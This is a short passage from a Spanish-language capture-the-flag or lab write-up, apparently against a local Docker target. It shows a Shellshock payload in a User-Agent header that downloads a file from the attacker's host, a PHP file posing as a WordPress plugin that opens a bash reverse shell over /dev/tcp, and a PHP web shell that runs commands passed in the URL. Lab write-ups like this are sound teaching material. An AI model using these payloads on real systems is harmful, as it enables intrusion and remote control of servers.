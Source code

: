 Nos manda a un directorio nuevo y nos da una pista :

```

User-Agent almacenado en el log. 

```

No tiene pinta de ser un Log Poisoning, vamos a probar antes un **shellshock**

```bash

python3 -m http.server (en otra shell)

curl -s http://172.17.0.2/pruebasUltraSecretas/ -A "() { :;}; curl http://172.17.0.1:8000/wp.php -o wp.php"

```

Efectivamente nos coge la shell (nos poonemos en escucha rpor el puerto 443):

```php
<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>
```

Nos echa constantemente.


Vamos a subirnos una cmd :

```bash
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
